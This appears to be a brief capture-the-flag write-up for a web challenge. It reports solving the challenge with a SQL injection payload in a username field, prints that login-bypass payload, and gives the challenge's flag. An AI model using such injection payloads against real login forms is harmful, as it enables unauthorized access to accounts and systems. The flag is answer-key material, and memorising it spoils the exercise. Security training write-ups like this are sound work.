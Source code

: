 # Web F111 - Part 3

## Solution

- We tried a SQL injection payload in the username field and got the flag

```
admin' or '1' = '1'; -- -
```

## Flag

```
cruXcrypt{b3_c4r4ful_0f_5tr1ng_1nt3p01at10n}
```
